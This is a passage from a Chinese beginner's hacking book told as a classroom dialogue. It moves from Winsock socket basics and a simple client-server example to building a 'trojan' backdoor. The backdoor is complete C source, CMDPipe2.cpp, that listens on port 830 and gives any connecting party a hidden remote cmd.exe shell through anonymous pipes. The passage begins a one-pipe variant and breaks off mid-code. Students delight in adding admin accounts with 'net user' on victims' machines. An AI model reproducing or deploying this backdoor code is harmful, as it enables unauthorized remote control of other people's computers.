“哦，如果本机只有一个地址，是不是就准确地得到了啊？”小菜们问道。  
“嗯，是的！这个函数是不会得到 127.0.0.1 这个环回地址的。”  
“哦，但还是有问题啊。”小菜 C 想想说道，“如果有很多个 IP，而我们想得到一个外网的 IP，而不是 192 或 172 那些内部地址，那该怎么办呢？”  
“问得好，这种情况有两种解决方法。”老师说道。  
“第一种办法还是用这两个函数，得到所有的 IP 后，一个个地检查是不是 192 或 172 开头的，如果是，就表明这个 IP 是内部地址；如果不是，就说明这个 IP 地址可能是外网地址。”  
“但这样还是显得笨拙，而且当有两块网卡的时候，还很不准确。第二种方法是用 **GetBestInterface()** 这个函数。使用方法是指定一个想连接到的 IP 地址，然后用 GetBestInterface 寻找本机通往那个 IP 地址的最佳 IP 出口。函数如下。”

原型：

```c
DWORD GetBestInterface(
    IPAddr dwDestAddr,
    PDWORD pdwBestIfIndex
);
```

参数：  
第一个参数 dwDestAddr 为我们想连接的 IP 地址。  
第二个参数为返回的最佳 IP 接口的索引值。

“得到了最佳 IP 接口的索引值后，我们取 IP 列表中的那个位置的 IP 地址就 OK 了。”老师说道，“IP 列表可以通过 **GetIpAddrTable** 函数得到。所以万事俱备，也不欠东风了。给出一个例子程序如下。”

```c
DWORD RetrieveBestInterface(void)
{
    DWORD dwBestIndex = INVALID_ADDRESS;
    // 获得最佳IP接口的索引值
    DWORD dwResult = GetBestInterface(inet_addr(DEFAULT_DESTINATION),
        &dwBestIndex);
    if ( dwResult == NO_ERROR )
    {
        // 如果没有错误，将索引值返回
        return RetrieveByIndex(dwBestIndex);
    }
    // 有错误，返回失败
    return INVALID_ADDRESS;
}

// 得到 RetrieveBestInterface() 函数的返回值索引后，作为参数带入 RetrieveByIndex 函数
DWORD RetrieveByIndex(DWORD index)
{
    PMIB_IPADDRTABLE pAddrTable(NULL);
    PMIB_IPADDRROW   pAddrRow(NULL);
    ULONG            ulSize(0);
    DWORD            ret = INVALID_ADDRESS;
    char *           pBuffer = NULL;
    // 获得本机所有的IP列表
    GetIpAddrTable((PMIB_IPADDRTABLE)(char *)pBuffer, &ulSize, TRUE);

    pBuffer = new char[ulSize];
    if (!pBuffer) return INVALID_ADDRESS;
    DWORD dwResult = GetIpAddrTable((PMIB_IPADDRTABLE)(char *)pBuffer, &ulSize, TRUE);
    if (dwResult == NO_ERROR)
    {
        pAddrTable = (PMIB_IPADDRTABLE)(char *)pBuffer;
        for (DWORD x = 0; x < pAddrTable->dwNumEntries; x++)
        {
            pAddrRow = (PMIB_IPADDRROW) &(pAddrTable->table[x]);
            // 如果和最佳索引相等，返回其地址
            if (pAddrRow->dwIndex == index)
            {
                ret = pAddrRow->dwAddr;
                delete [] pBuffer;
                return ret;
            }
        }
    }
    delete [] pBuffer;
    return INVALID_ADDRESS;
}

```c

```

老师最后说道：“OK，这些细节的地方，很多从事网络编程多年的人可能都没有加以注意。大家遇到问题时，可以来这里寻找答案。”

## 2.4 传递名字——网络编程的第一个例子

“OK，现在我们有了函数，是大展身手的时候了，现在我们把那些知识点串起来，编写一个实际的网络程序。”

“有了伯克利的工作，我们使用 socket 实现网络通信编程是非常方便的。通信，必然是两台计算机间的事情。”

“传统的通信模式是 C/S 模式。需要有一台是服务端，一台是客户端。服务端首先启动，建立一个套接字 socket，并对相应的 IP 和端口进行绑定、监听；客户端也建立一个套接字，它直接连接服务端监听的端口；双方连接建立后，服务端和客户端就可以互相传输数据了。当然操作都是通过 socket 来完成的。”

“下面就是套接字在编程时实际使用的方法。”

### 2.4.1 服务端流程

“服务端和客户端通信的工作流程如图 2.22；”

小菜们看得仔仔细细，一大堆东西都是学过的，“怎么合起来，还是觉得比较难以理解呢？”

“我们应了解它，分而治之。首先看服务端的程序。其流程是：socket()→bind()→listen()→accept()→recv()/send()→closesocket()，对于 Windows 下的程序，最前面还有一个 WSAStartup() 的过程，初始化 Windows Socket DLL。”

“待我们具体地看来。”老师不紧不慢地说道。“先是初始化 Windows Socket DLL。”
WSAStartup(MAKEWORD(2,2),    // 初始化版本为 2.2
    &ws                      // 返回版本信息于 ws 中
);
```

然后建立 socket：

```c
sockfd = socket(AF_INET,     // TCP/IP 协议族
    SOCK_STREAM,             // 流套接字类型
    0                        // 通信协议设为 0
);
```

再 bind 本机的 830 端口：

```c
my_addr.sin_family = AF_INET;            // 协议类型是 INET
my_addr.sin_port = htons(830);           // 绑定 830 端口
my_addr.sin_addr.s_addr = INADDR_ANY;    // 本机任意 IP
bind(sockfd,                             // 绑定到 sockfd 上
    (struct sockaddr *)&my_addr,         // 地址结构指针
    sizeof(struct sockaddr)              // 地址结构大小
);
```

接下来监听端口：

```c
listen(sockfd,    // 在 sockfd 上监听
    BACKLOG       // 设定可等待客户队列的大小为 BACKLOG = 2
);
```

如果有客户端的连接请求，则接受它，并生成新的 socket new_fd。

```c
new_fd = accept(sockfd,              // 在 sockfd 上接受连接
    (struct sockaddr *)&their_addr,  // 保存请求端的 sockaddr 结构
    &sin_size);                      // sockaddr 结构的大小
```

最后发送 ww0830 字符串过去。

```c
send(new_fd,         // 发送使用的套接字为 new_fd
    "ww0830\n",      // 发送内容为 ww0830
    14,              // 发送数据的大小
    0);              // flag 设为 0
```

收尾工作，关闭 socket。

```c
closesocket(sockfd);
closesocket(new_fd);
```

### 2.4.2 服务端测试

“流程讲解完毕，把程序合起来，就是这样子的。”老师在墙上投影出整个程序。

```c
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib,"ws2_32")
#define BACKLOG 10                /* 多少等待连接控制 */

int main()
{
    int sockfd, new_fd;                 /* 定义套接字 */
    struct sockaddr_in my_addr;         /* 本地地址信息 */
    struct sockaddr_in their_addr;      /* 连接者地址信息 */
    int sin_size;
    WSADATA ws;

    // 初始化 Windows Socket DLL
    WSAStartup(MAKEWORD(2,2),           // 初始化版本为 2.2
        &ws                             // 返回版本信息于 ws 中
    );

    // 建立 socket
    sockfd = socket(AF_INET,            // TCP/IP 协议族
        SOCK_STREAM,                    // 流套接字类型
        0                               // 通信协议设为 0
    );

    // bind 本机的 830 端口
    my_addr.sin_family = AF_INET;          /* 协议类型是 INET */
    my_addr.sin_port = htons(830);         /* 绑定 830 端口 */
    my_addr.sin_addr.s_addr = INADDR_ANY;  /* 本机任意 IP */
    bind(sockfd,                           // 绑定到 sockfd 上
        (struct sockaddr *)&my_addr,       // 地址结构指针
        sizeof(struct sockaddr)            // 地址结构大小
    );

    // listen，监听端口；
    listen(sockfd,                      // 在 sockfd 上监听
        BACKLOG                         // 设定可等待客户队列的大小为 BACKLOG=2
    );
    printf("listen...\n");

    // 等待客户端连接
    sin_size = sizeof(struct sockaddr_in);
    new_fd = accept(sockfd,             // 在 sockfd 上接受连接
        (struct sockaddr *)&their_addr, // 保存请求端的 sockaddr 结构
        &sin_size                       // sockaddr 结构的大小
    );

    // 有连接，发送 ww0830 字符串过去
    send(new_fd,                        // 发送使用的套接字为 new_fd
        "ww0830\n",
        14,                             // 发送数据的大小
        0                               // flag 设为 0
    );
    printf("send ok!\n");

    // 成功，关闭套接字
    closesocket(sockfd);
    closesocket(new_fd);
    return 0;
}
```

“哇！果然都是对 socket 的操作啊”，小寒们感叹道。

“对！大家注意，为了突出整个流程，程序没有加任何的错误判断和处理。但在实际程序中，错误处理是很重要的部分，大家一定要重视！”

“也就是说，我们应该在 `socket()`、`bind()`、`listen()`、`accept()`、`send()` 这些函数执行后，马上判断其返回值是否是成功。如果发现失败，那么应该作相应的处理，甚至退出程序，不再执行下面的操作。”

“嗯。”小菜们点点头，“可不可以看下效果呢？”

“当然可以了，我们把 `server.cpp` 编译、执行，就会一直监听 830 端口，如图 2.23。”


图 2.23

“测试一下吧。在另一台机器上，进入命令行界面，输入 `telnet 服务器IP 830`，我的服务器 IP 是 211.83.154.120，那就像图 2.24 一样输入命令。”


图 2.24

“敲回车，啪！telnet 客户端成功地收到了服务端发来的 `ww0830` 字符串，并显示在了屏幕上，而在服务端也显示传输成功，如图 2.25。”


图 2.25

“乌拉！成功了！”小菜们欢呼道。

“呵呵，是啊。不过刚才客户端使用的 `telnet` 程序是 Windows 系统自带的。我们也可以自己实现一个客户端的程序，来实现通信。”老师说道。

### 2.4.3 客户端流程

“根据流程图，客户端的流程如下：`socket()->connect()->send()/recv()->closesocket()`。”

“哦，好像比服务端简单啊。”大家对比了一下，说道。

“是的。客户端只是连接服务端就可以了，所以更简单。重点还是流程，我们也把脉络提出来过一遍吧。”老师说道。

“首先是初始化 Windows Socket DLL：”

```c
WSAStartup(MAKEWORD(2,2),    // 初始化版本为 2.2
    &ws                      // 返回版本信息于 ws 中
);
```

然后建立 socket：

```c
sockfd = socket(AF_INET,    // TCP/IP 协议族
    SOCK_STREAM,            // 流套接字类型
    0                       // 通信协议设为 0
);
```

接着用 connect 函数连接服务器方：

```c
their_addr.sin_family = AF_INET;                  // 协议类型是 INET
their_addr.sin_port = htons(830);                 // 连接服务器端 830 端口
their_addr.sin_addr.s_addr = inet_addr(argv[1]);  // 连接服务器端的 IP
connect(sockfd,                                   // 通过 sockfd 连接
    (struct sockaddr *)&their_addr,               // 连接服务端的地址信息
    sizeof(struct sockaddr));                     // sockaddr 结构的大小
```

如果连接成功就接收数据：

```c
recv(sockfd,        // 使用 sockfd 接收
    buf,            // 接收数据存放的缓冲区
    MAXDATASIZE,    // 接收数据的最大长度
    0);             // flag 设为 0
```

最后把收到的数据打印出来并关闭套接字：

```c
printf("Received: %s", buf);   // 打印接收到的数据
closesocket(sockfd);           // 关闭套接字
```

“这儿的 `htons(830)`、`inet_addr(argv[1])` 就是把本地数据格式的端口和 IP 地址转换成网络数据格式。”

“`argv[1]` 是指程序执行时带的第一个参数。执行时，要像下面这样执行，把服务端的 IP 作为程序的参数，如图 2.26。”老师演示道。


图 2.26

“这个时候，211.83.154.120 就是 `int main(int argc, char *argv[]) {}` 里面 `argv[1]` 的内容。我们把上面的代码合起来，同服务端一起执行吧。”

### 2.4.4 客户端实现和联调

“客户端的完整代码为 `client.cpp`，具体如下。”

```c
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib, "Ws2_32")

#define MAXDATASIZE 100            /* 每次可以接收的最大字节 */
int main(int argc, char *argv[])
{
    int sockfd, numbytes;
    char buf[MAXDATASIZE];
    struct sockaddr_in their_addr; /* 对方的地址端口信息 */
    if (argc != 2)
    {
        // 需要有服务端 IP 参数
        fprintf(stderr, "usage: client hostname\n");
        exit(1);
    }

    WSADATA ws;
    WSAStartup(MAKEWORD(2,2), &ws);    // 初始化 Windows Socket DLL
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    // 连接对方
    their_addr.sin_family = AF_INET;                 /* 协议类型是 INET */
    their_addr.sin_port = htons(830);                /* 连接对方 830 端口 */
    their_addr.sin_addr.s_addr = inet_addr(argv[1]); /* 连接对方的 IP */
    connect(sockfd,
        (struct sockaddr *)&their_addr,   // 连接服务端的地址信息
        sizeof(struct sockaddr));         // sockaddr 结构的大小
    // 接收数据，并打印出来
    numbytes = recv(sockfd,
        buf,                // 接收数据存放的缓冲区
        MAXDATASIZE,        // 接收数据的最大长度
        0);                 // flag 设为 0
    buf[numbytes] = '\0';
    printf("Received: %s", buf);         // 打印接收的数据
    closesocket(sockfd);                 // 关闭套接字
    return 0;
}
```

“连起来测试一下。我们还是先打开服务端的程序，让它监听端口；再运行客户端的程序去连接它，其效果如图 2.27。”


图 2.27

“哦！又收到了服务器发的数据了。”同学们高兴地说。

“我有点明白了！编程就是用一系列的函数，完成构思的流程图中的每个部分。”菜鸟 B 感悟地说道，“所以思路才是关键。”

“总结得太好了！”老师赞扬地说。“程序的本质，是算法加数据结构。算法就是流程图，数据结构就是定义适当的变量来调用适合的函数。”

“当然，如果作为一个软件，就不局限于此了。软件追求的是满足用户提出的需求，并提供给用户人性化的界面。”老师认真地补充道。

“好了，经过这节课的学习，我们清楚了网络通信的基本概念，知道了如何编程实现数据在网络上的传输。这一点可以用在木马中，给目标机发送的命令和接收执行的结果。”

“下节课，我们会看木马是如何接收命令、执行命令以及如何返回命令结果的。路漫漫兮，放学！”

# 第三章 菜鸟后门编写初探

## 3.1 基本的执行 DOS 命令木马

“接着上次课的内容，”老师待大家坐好后，问道：“同学们，充分发挥你们的想象力。当上天给了你一个机会，使用木马登录进了别人的电脑，你们首先想做的事是什么呢？”

“用 dir、cd！看看对方电脑上有什么文件！比如像什么‘天下足球’什么的。”菜鸟 A 显然是个球迷。

“用 net user！添加一个管理员账户，哈哈！”菜鸟 D 开心地说道。

“用 ftp、tftp 等客户端命令，上传我们想要的文件！”菜鸟 E 说道。

“如果是仇人的电脑，就用 Format，格式化了它！”菜鸟 F 狠狠地说。

“不要做坏事，小心被警察叔叔爆了气皮逮杀打到三十二连斩啊！大家考虑的其实都差不多，都是最基本的 DOS 命令行下的功能，是么？”

“哦，是啊！”小菜们恍然大悟。

“DOS 功能是木马所必须拥有的最小的功能模块。”老师继续说道，“我们来看看如何实现它吧。”

“实现的方法有很多种。我们还是按照马克思主义理论，遵循历史发展的规律，学习‘三个代表’的重要思想，开展分阶段‘保先教育’的要求，依次地进行讲解。”

“很早很早的木马——像冰河那个时代的木马，都是把目标电脑作为服务器，打开一个端口进行监听；如果攻击者连接了那个端口，就会得到一个 DOS 的 shell。”

“这类木马叫正向木马，要做的事情就是当攻击方连接上之后，为它开创一个 cmd.exe，把攻击方的输入输出和 cmd.exe 的输入输出联系起来，我们远程的攻击者就跟 telnet 一样，有了一个远程 shell 了。”

“刚才我们学习了绑定某个端口、接收连接和发送数据的实现。接下来我们就要：一、开创 cmd.exe 进程；二、把 cmd 进程和客户的输入连起来。”

“进程是一个可执行的程序，由私有虚拟地址空间、代码、数据和其他操作系统资源（如进程创建的文件、管道、同步对象等）组成。”

“先看第一个，为客户开创一个 cmd.exe。可以用 CreateProcess 来创建子进程，其函数如下。”

原型：

```c
BOOL CreateProcess(
    LPCTSTR lpApplicationName,
    LPTSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCTSTR lpCurrentDirectory,
    LPSTARTUPINFO lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
);
```

参数：

- 第一个参数 lpApplicationName：指向包含了要运行 EXE 的程序名。
- 第二个参数 lpCommandLine：如果要执行 DOS 命令，指向命令行字符串。
- 第三个参数 lpProcessAttributes：描述进程的安全性属性。
- 第四个参数 lpThreadAttributes：描述进程初始线程（主线程）的安全性属性。
- 第五个参数 bInheritHandles：表示子进程（被创建的进程）是否可以继承父进程的句柄。可以继承

## 菜鸟后门编写初探

的句柄有线程句柄、有名或无名管道、互斥对象、事件、信号量、映像文件、普通文件和通讯端口等；还有一些句柄不能被继承，如内存句柄、DLL 实例句柄、GDI 句柄、USER 句柄等等。子进程继承的句柄由父进程通过命令行方式或者进程间通信（IPC）方式由父进程传递给它。

第六个参数 dwCreationFlags：表示创建进程的优先级类别和进程的类型。创建进程的类型分控制台进程、调试进程等；优先级类别用来控制进程的优先级别，分 Idle、Normal、High、Real_time 四个类别。

- 第七个参数 lpEnvironment：指向环境变量块，环境变量可以被子进程继承。
- 第八个参数 lpCurrentDirectory：指向表示当前运行目录。
- 第九个参数 lpStartupInfo：指向 STARTUPINFO 结构，控制进程的主窗口的出现方式。
- 第十个参数 lpProcessInformation：指向 PROCESS_INFORMATION 结构，用来存储返回的进程信息。

一个进程包含了很多信息。若进程创建成功的话，返回一个进程信息结构类型的指针。进程信息结构如下：

```c
typedef struct _PROCESS_INFORMATION {
    HANDLE hProcess;
    HANDLE hThread;
    DWORD dwProcessId;
    DWORD dwThreadId;
} PROCESS_INFORMATION;
```

进程信息结构包括进程句柄、主线程句柄、进程 ID、主线程 ID。

> “哎哟！好多参数啊。”台下抱怨道。

> “呵呵，不要紧，很多参数不是设置成 0 就是 1，所以还是很简单的。”老师说道，“大家如果要想看看效果，执行下面这个程序。”

```c
#include <windows.h>
int main()
{
    PROCESS_INFORMATION ProcessInformation;
    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    CreateProcess(NULL,                // 不是执行 exe 文件，设为 NULL
                  "cmd.exe /k",        // 执行的 dos 命令为 cmd.exe /k
                  NULL,                // 进程安全属性设为 NULL
                  NULL,                // 线程安全属性设为 NULL
                  1,                   // 子进程可继承父进程的句柄
                  0,                   // 优先级设为 0
                  NULL,                // 环境变量块设为 NULL
                  NULL,                // 当前运行目录设为 NULL
                  &si,                 // 主窗口的出现方式设置
                  &ProcessInformation);// PROCESS_INFORMATION 结构，存储返回的进程信息
    return 0;
}
```

“很多参数都设为 NULL，就开创了一个 cmd.exe /k 子进程，其结果如图 3.1。这里的参数 /k，是让 cmd 控制台执行并保留下来。”

> “嗯！的确开了一个 dos 控制台，但如何使这个 dos 控制台和控制端输入的命令联系起来呢？”菜鸟 C 问道。

> 老师回答道：“这就涉及到进程间的通信问题了。”


图 3.1

## 基础知识 进程间通信（IPC）机制

进程间通信（IPC）机制是指同一台计算机的不同进程之间，或在网络上不同计算机的进程之间的通信。Windows 下的方法包括邮槽（Mailslot）、管道（Pipes）、事件（Events）、文件映射（FileMapping）等等。

> “我们的 cmd.exe 是一个子进程，而接收攻击端命令、返回命令结果的网络程序部分是在父进程，所以要把它们联系起来，需要采用进程间通信的方法了。这里我们使用匿名管道（Anonymous Pipe）来完成这个联系过程。”

## 基础知识 什么是管道

管道（Pipe）是一种简单的进程间通信（IPC）机制。实质是一段共享内存，在 Windows NT、2000、98、95 下都可以使用。一个进程在向管道写入数据后，另一个进程就可以从管道的另一端将其读取出来。

> “管道分有名和匿名两种，匿名管道要简单得多，它是单向的，虽然只能用在父子进程之间或一个进程的两个子进程之间通信，但正好符合我们的要求。”老师说道。

> “好了，”老师把手一挥，“多说无益，还是看看程序流程和具体的实现吧！”

“匿名管道由 CreatePipe() 函数创建。管道有读句柄和写句柄，分别作读入和输出，都可以由这个函数得到。”

原型：

```c
BOOL CreatePipe(
    PHANDLE hReadPipe,
    PHANDLE hWritePipe,
    LPSECURITY_ATTRIBUTES lpPipeAttributes,
    DWORD nSize
);
```

- 参数：
- 第一个参数 hReadPipe：指向 HANDLE 的指针，返回管道的读句柄存在其中。
- 第二个参数 hWritePipe：指向 HANDLE 的指针，返回管道的写句柄存在其中。
- 第三个参数 lpPipeAttributes：指向管道属性结构 SECURITY_ATTRIBUTES 的指针。
- 第四个参数 nSize：设置管道缓冲区的大小，如果为 0 则设为默认值。

- 说明：
- 如果 CreatePipe 函数执行成功，返回非 0 值；如果失败，返回 0。

> “一个匿名管道有两头，分为读句柄和写句柄，写句柄用来往管道中写入数据，读句柄用来把管道中的数据读出来。”

“创建了匿名管道和相应的读写句柄后，我们把写句柄放入一个进程中，读句柄放入另一个进程中。第一个进程要把数据写入 Pipe 时，针对写句柄调用 WriteFile 函数即可；另一个进程要读取 Pipe 里的数据时，针对读句柄先调用 PeekNamedPipe 函数确定 Pipe 中是否有数据，然后再调用 ReadFile 函数，将 Pipe 中的数据读出即可。提到的 PeekNamedPipe、ReadFile、WriteFile 这三个函数如下。”

```c
BOOL PeekNamedPipe(
    HANDLE hNamedPipe,
    LPVOID lpBuffer,
    DWORD nBufferSize,
    LPDWORD lpBytesRead,
    LPDWORD lpTotalBytesAvail,
    LPDWORD lpBytesLeftThisMessage
);
```

参数：
第一个参数 hNamedPipe：要检查管道的读句柄
第二个参数 lpBuffer：读取句柄里数据的缓冲区
第三个参数 nBufferSize：指明缓冲区的大小
第四个参数 lpBytesRead：返回实际读取数据的字节数
第五个参数 lpTotalBytesAvail：返回读取数据的总字节数
第六个参数 lpBytesLeftThisMessage：返回该消息中剩余的字节数，对于匿名管道，可以为 0。

说明：
PeekNamedPipe 函数读取出 Pipe 里面的数据，但不从 Pipe 里面移除。可以通过它判断 Pipe 里面是否有数据。

```c
BOOL ReadFile(
    HANDLE hFile,
    LPVOID lpBuffer,
    DWORD nNumberOfBytesToRead,
    LPDWORD lpNumberOfBytesRead,
    LPOVERLAPPED lpOverlapped
);
```

参数：
第一个参数 hFile：为要读取的句柄
第二个参数 lpBuffer：为接收数据的缓冲区
第三个参数 nNumberOfBytesToRead：要读取的字节
第四个参数 lpNumberOfBytesRead：返回实际读取的字节数
第五个参数 lpOverlapped：指向 OVERLAPPED 结构。

说明：
当读取完成或发生错误时，ReadFile 会返回。如果成功返回非 0 值，如果失败返回 0。

```c
BOOL WriteFile(
    HANDLE hFile,
    LPCVOID lpBuffer,
    DWORD nNumberOfBytesToWrite,
    LPDWORD lpNumberOfBytesWritten,
    LPOVERLAPPED lpOverlapped
);
```

参数：
第一个参数 hFile：要写入的句柄
第二个参数 lpBuffer：写入数据的缓冲区  
第三个参数 nNumberOfBytesToWrite：要写入的字节数  
第四个参数 lpNumberOfBytesWritten：返回实际写入的字节数  
第五个参数 lpOverlapped：指向 OVERLAPPED 结构。

说明：  
如果成功返回非 0 值，如果失败返回 0。

> “而对于这个 cmd shell 后门来说，我们使用两个匿名管道，一个管道把攻击者通过网络发过来的命令传到 cmd.exe 子进程中执行，另一个管道把执行结果返回给父进程，父进程再通过网络回传给攻击者。”

“木马命令和执行结果的网络传送，和上节课建立 socket 实现网络通信的代码是完全一样的。我们就看进程间的通信部分。”

小菜们睁大了眼睛，仔细地看着。

“我们建立两个 Pipe，第一个管道用于输出执行结果；第二个管道用于输入命令。”

```c
// 管道1输出cmd子进程的结果
CreatePipe(&hReadPipe1,        // 创建管道1的读句柄
&hWritePipe1,                  // 创建管道1的写句柄
&pipeattr1,                    // 管道的安全属性
0);                            // 为0，管道为默认大小

// 管道2输入攻击者的命令
CreatePipe(&hReadPipe2,        // 创建管道2的读句柄
&hWritePipe2,                  // 创建管道2的写句柄
&pipeattr2,                    // 管道的安全属性
0);                            // 为0，管道为默认大小
```

> “有了管道 1、2 后，我们把 cmd 子进程的输出句柄用管道 1 的写句柄替换，那样 cmd 子进程的所有运行结果都自动写入到管道 1 中，网络通信主进程就可以通过管道 1 的读句柄来获得 cmd 的输出，从而发给攻击者。”

“同时，我们把 cmd 子进程的输入句柄用管道 2 的读句柄替换，那样主进程要给 cmd 子进程传送命令时，只需写入管道 2 的写句柄，就自动传给 cmd 子进程了，示意图如图 3.2。”


图 3.2

> “这里比较麻烦，我再讲一遍，进程间通信过程如下：
> （远程主机）<-socket<-结果<-管道1输出<-管道1输入<-输出（cmd.exe 子进程）
> （远程主机）-socket->命令->管道2输入->管道2输出->输入（cmd.exe 子进程）”。

“为了达到这样的效果，我们设置 cmd 子进程启动参数 si 为。”

```c
si.hStdInput = hReadPipe2;
si.hStdOutput = si.hStdError = hWritePipe1;
```

> “就是替换 cmd 子进程的输出句柄为管道 1 写句柄，输入句柄为管道 2 读句柄。最后再开启 cmd 命令就可以了。”

```c
CreateProcess(NULL,   // EXE文件为NULL
cmdLine,              // 执行的Dos命令为“cmd”
NULL,                 // 进程安全属性设为NULL
NULL,                 // 线程安全属性设为NULL
1,                    // 子进程可继承父进程的句柄
0,                    // 优先级
NULL,                 // 环境变量块设为NULL
NULL,                 // 当前运行目录设为NULL
&si,                  // 刚才设置的启动参数在si中
&ProcessInformation   // PROCESS_INFORMATION结构，存储返回的进程信息
);
```

“cmd 子进程启动起来后，木马父进程就要负责和远程控制机间的通信，传输控制者的命令和结果。实现是先检查管道 1，即 cmd 进程是否有输出，如果有，就读出来发给远程控制机；如果没有，就接收远程控制机的命令，并写入管道 2，传入 cmd 进程中。就像下面的代码。”

```c
// 检查管道1，即cmd的进程是否有输出
ret=PeekNamedPipe(hReadPipe1,   // 检查管道1的读句柄hReadPipe1
    Buff,                       // 存储缓冲区
    1024,                       // 缓冲区大小
    &lBytesRead,                // 返回实际读取的字节数
    0,                          // 读取的总字节数，设为0
    0                           // 返回消息的剩余字节数，设为0
);
if(lBytesRead)
{
    // 管道1有输出，读出Pipe1的输出结果
    ret=ReadFile(hReadPipe1,     // 读取管道1的读句柄hReadPipe1
        Buff,                    // 读取数据保存缓冲区
        lBytesRead,              // 要读取的字节数
        &lBytesRead,             // 实际读取的字节数
        0);                      // 指向OVERLAPPED结构设为NULL
    if(!ret) break;
    // 读取数据后，send发送给远程控制机
    ret=send(clientFD,           // 连接套接字为clientFD
        Buff,                    // 发送从管道1里读取的数据
        lBytesRead,              // 从管道1里读取数据的长度
        0);                      // flag设为0
    if(ret<=0) break;
}
else
{
    // 否则，接收远程客户机的命令
    lBytesRead=recv(clientFD,Buff,1024,0);
    if(lBytesRead<=0) break;
    // 将命令写入管道2，即传给cmd进程
    ret=WriteFile(hWritePipe2,   // 写入管道2的写句柄
        Buff,                    // Buff存的是远程客户机发送过来的命令
        lBytesRead,              // 客户机发送过来命令的长度
        &lBytesRead,             // 返回实际读取的长度
        0);                      // 指向OVERLAPPED结构设为NULL
    if(!ret) break;
}
```

> “把它们合起来，不断地循环接收命令，发给 cmd 子进程执行，得到结果，发回给攻击者，就可以得到程序 CMDPipe2.cpp。”

```cpp
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")

int main()
{
    WSADATA ws;
    SOCKET listenFD;
    char Buff[1024];
    int ret;
    // 初始化wsa
    WSAStartup(MAKEWORD(2,2),&ws);
    // 建立socket
    listenFD = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    // 监听本机830端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = ADDR_ANY;
    ret = bind(listenFD,(sockaddr *)&server,sizeof(server));
    ret = listen(listenFD,2);
    // 如果客户端请求830端口，接受连接
    int lAddrSize = sizeof(server);
    SOCKET clientFD = accept(listenFD,(sockaddr *)&server,&lAddrSize);
    SECURITY_ATTRIBUTES pipeattr1, pipeattr2;
    HANDLE hReadPipe1,hWritePipe1,hReadPipe2,hWritePipe2;
    // 建立匿名管道1
    pipeattr1.nLength = 12;
    pipeattr1.lpSecurityDescriptor = 0;
    pipeattr1.bInheritHandle = true;
    CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
    // 建立匿名管道2
    pipeattr2.nLength = 12;
    pipeattr2.lpSecurityDescriptor = 0;
    pipeattr2.bInheritHandle = true;
    CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);
    STARTUPINFO si;
    ZeroMemory(&si,sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.hStdInput = hReadPipe2;
    si.hStdOutput = si.hStdError = hWritePipe1;
    char cmdLine[] = "cmd";
    PROCESS_INFORMATION ProcessInformation;
    // 建立进程
    ret = CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,
    &ProcessInformation);
}
``````c
/*
解释一下，这段代码创建了一个 cmd.exe，
把 cmd.exe 的标准输出和标准错误输出用第一个管道的写句柄替换，
cmd.exe 的标准输入用第二个管道的读句柄替换。
如下：
（远程主机）<-- 输入 <-- 管道1输出 <-- 管道1输入 <-- 输出（cmd.exe 子进程）
（远程主机）--> 输出 --> 管道2输入 --> 管道2输出 --> 输入（cmd.exe 子进程）
*/

unsigned long lBytesRead;
while(1)
{
    // 检查管道1，即 cmd 进程是否有输出
    ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
    if(lBytesRead)
    {
        // 管道1 有输出，读出结果发给远程客户机
        ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
        if(!ret) break;
        ret=send(clientFD,Buff,lBytesRead,0);
        if(ret<=0) break;
    }
    else
    {
        // 否则，接收远程客户机的命令
        lBytesRead=recv(clientFD,Buff,1024,0);
        if(lBytesRead<=0) break;
        // 将命令写入管道2，即传给 cmd 进程
        ret=WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0);
        if(!ret) break;
    }
}
return 0;
}


```

“我们执行 CMDPipe2.cpp，本机就会打开 830 端口监听。如果其他机器 telnet ip 830，就会给它一个远程的 cmd shell，可以在那个 shell 下，输入我们要执行的命令，效果如图 3.3。”
# 黑客编程入门

“哇！终于可以用 dir、cd 命令了！”菜鸟A长出了一口气。

“也可以用 net user 命令！”菜鸟D也满意地说道。

“哦！我们也会编写木马了！哈哈！”菜鸟B兴奋地说道。

老师微笑地看着大家争先恐后地使用他们自己打造的首个木马，说道：“这个木马虽然简单，功能也很简陋，但却是所有木马的雏形。我们会在这个版本的基础上，慢慢地，不断地改进，最终打造出我们自己的梦幻木马！”

“哦！好啊，我们继续打造吧！”

“等等，刚才是使用两个管道的办法，其实还可以只用一个管道。”老师说道。

“咦？一个管道？”小菜们不解地说道。

“对！cmd 子进程要输出结果，这里必须要使用一个管道；但给 cmd 子进程输入要执行的命令时，可以想办法不用管道！”老师提示道，“大家想想，怎么把这个管道省掉呢？”

“啊哟，不好办啊！”小菜们为难地说道。

“呵呵，再提示一下，CreateProcess 执行 cmd 进程的时候，是可以带参数的。”

“哦！”菜鸟C明白了，“我们把攻击者传过来的命令作为 cmd 的参数，来开启进程，直接运行命令！”

“太对了！我们只建一个管道，然后将 cmd 子进程的输出句柄用管道的写句柄替换。”

```c
CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
si.hStdOutput = si.hStdError = hWritePipe1;
```

“传输执行结果和双管道一样，先检查管道里有没有输出数据，有就将数据读出并发送给客户端；而接收远程客户机的命令时，把命令数据和 cmd /c 合起来，作为参数开启一个新的 cmd 子进程。代码如下。”

```c
ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
if(lBytesRead)
{
    // 管道1有输出，读出结果发给远程客户机
    ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
